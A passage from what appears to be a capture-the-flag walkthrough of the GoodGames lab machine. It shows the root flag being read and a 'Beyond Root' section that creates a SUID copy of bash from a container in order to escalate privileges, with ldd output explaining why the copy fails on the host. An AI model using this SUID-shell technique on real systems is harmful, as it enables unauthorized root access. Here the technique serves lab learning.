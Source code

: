 And I can fetch the flag:

```

bash-5.1# cat /root/root.txt
820d1e82************************

```

## Beyond Root

The first time I tried to escalate here, I copied the `bash` binary from in the container into augustus’ home directory and made it SUID:

```

root@3a453ab39d3d:/home/augustus# cp /bin/bash .
root@3a453ab39d3d:/home/augustus# chmod 4777 bash 
root@3a453ab39d3d:/home/augustus# ls -l bash 
-rwsrwxrwx 1 root root 1099016 Feb 22 15:18 bash

```

It shows up the same way on GoodGames:

```

augustus@GoodGames:~$ ls -l bash 
-rwsrwxrwx 1 root root 1099016 Feb 22 15:18 bash

```

But running it errors out:

```

augustus@GoodGames:~$ ./bash -p
./bash: error while loading shared libraries: libtinfo.so.5: cannot open shared object file: No such file or directory

```

Running `ldd` shows how this binary loads libraries:

```

augustus@GoodGames:~$ ldd bash 
        linux-vdso.so.1 (0x00007ffc64194000)
        libtinfo.so.5 => not found
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fa964fc8000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa964e03000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fa964fd7000)

```

It clearly shows that `libtinfo.so.5` is not found. The standard `bash` binary on the host is using `libtinfo.so.6`:
